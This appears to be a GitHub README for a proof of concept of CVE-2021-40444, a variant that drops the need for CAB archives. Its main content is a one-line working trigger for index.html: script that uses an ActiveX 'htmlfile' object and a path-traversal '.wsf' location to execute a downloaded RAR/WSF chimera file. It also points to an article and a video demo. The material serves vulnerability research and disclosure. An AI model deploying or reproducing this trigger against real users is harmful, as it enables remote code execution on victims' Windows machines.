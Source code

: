 # CVE-2021-40444--CABless version
Update: Modified code so that we don´t need to rely on CAB archives
the file "index.html" that triggers payload execution will contain 1 line of code only, inside 'script' tag:
<script>new ActiveXObject('htmlfile').Script.location='.wsf:../../../Downloads/cabless.rar?.wsf';</script>
An article in PDF format is provided.

Update: link to video demo -> https://www.youtube.com/watch?v=eYq7WapuDLU?v=

Note: The sample RAR file does NOT contain a Word document designed to exploit the vulnerability as I have taken as reference one of the PoCs posted on GitHub. Instead, it just have merged WSF and RAR data to demonstrate the path described in the article so the file can be parsed as RAR and WSF (chimera).
